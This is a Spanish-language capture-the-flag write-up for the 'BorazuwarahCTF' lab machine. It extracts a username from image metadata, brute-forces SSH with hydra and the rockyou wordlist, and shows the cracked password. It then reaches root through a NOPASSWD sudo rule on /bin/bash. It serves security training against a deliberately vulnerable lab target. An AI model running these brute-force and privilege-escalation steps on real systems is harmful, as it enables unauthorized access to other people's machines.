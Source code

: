 ```yaml
---
description: '🧠Dificultad: Muy Fácil | 🔓22/07/2025'
---
```


# BorazuwarahCTF

La máquina está corriendo un servicio web. Esto lo he comprobado introduciendo la IP en el navegador. Nos encontramos con una foto de un huevo kinder.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250622010559.png" alt="" width="251"><figcaption></figcaption></figure></div>

Antes de comprobar directorios ocultos, creo que la imagen nos puede decir algo, así que procedo a descargarme la imagen para analizarla. Si usamos el comando `exiftool` podemos ver los metadatos de la imagen:

<figure><img src="../../.gitbook/assets/Pasted image 20250622010836.png" alt=""><figcaption></figcaption></figure>

En el campo `description` encontramos un usuario: **`borazuwarah`**. Sobre la contraseña no nos dice nada. Puede que haya un archivo oculto en su interior, ya que en los metadatos de la imagen aparece el propio programa `exiftool` utilizado para esconder imágenes y metadatos ocultos. Vamos a comprobar si la imagen tiene información oculta, para ello utilizo el comando `steghide extract -sf imagen.jpeg` y vemos si hay suerte.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250622011152.png" alt=""><figcaption></figcaption></figure></div>

Efectivamente había un fichero oculto, pero no nos ha valido para nada. Nos indica que la pista está dentro de la imagen, por lo que creo que se refiere a lo que ya hemos encontrado anteriormente. He supuesto que este usuario se puede utilizar para acceder por SSH a la máquina, por lo que si no tenemos más información, podemos intentar hacerle un ataque de fuerza bruta al SSH para el usuario encontrado.

```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
```

Una vez entramos por ssh a la máquina, ejecutamos el comando `sudo -l` para ver los permisos que tenemos como sudoer.

```bash
sudo -l
```

```
Matching Defaults entries for borazuwarah on 7eec632a86c9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7eec632a86c9:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Podemos correr el ejecutable `/bin/bash` con sudo sin necesidad de contraseña.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722015209.png" alt=""><figcaption></figcaption></figure></div>
